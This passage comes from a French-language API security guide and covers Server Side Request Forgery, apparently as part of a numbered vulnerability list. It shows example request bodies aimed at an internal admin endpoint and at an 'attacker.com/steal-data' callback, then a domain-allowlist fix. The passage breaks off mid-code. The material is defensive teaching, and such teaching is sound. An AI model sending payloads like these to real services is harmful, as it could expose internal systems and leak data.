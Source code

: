 ```javascript
      error: 'Insufficient funds'
    });
  }

  // Traitement du transfert
  const transfer = await processTransfer(senderId, recipientId, amount);
  res.status(201).json({ transfer });
});
```

### 7. Server Side Request Forgery (SSRF)

#### Description
L'API effectue des **requêtes HTTP** vers des URLs contrôlées par l'attaquant.

```javascript
// ❌ SSRF vulnérabilité
POST /api/fetch-url
{
  "url": "http://internal-server.internal/api/admin"
}

POST /api/webhook
{
  "callback": "http://attacker.com/steal-data"
}
```

#### Correction

```javascript
// ✅ Liste blanche des URLs autorisées
const allowedDomains = [
  'api.github.com',
  'api.twitter.com',
  'my-partner-api.com'
];

const validateURL = (url) => {
  try {
    const parsed = new URL(url);

    if (!allowedDomains.includes(parsed.hostname)) {
      throw new Error('Domain not allowed');
    }

    if (parsed.protocol !== 'https:') {
      throw new Error('Only HTTPS allowed');
    }

    return parsed;
  } catch (error) {
    throw new Error('Invalid URL');
  }
};

// ✅ Fetch sécurisé
app.post('/api/fetch-data', authenticateToken, async (req, res) => {
  const { url } = req.body;

  try {
    const validatedUrl = validateURL(url);

    const response = await fetch(validatedUrl, {
```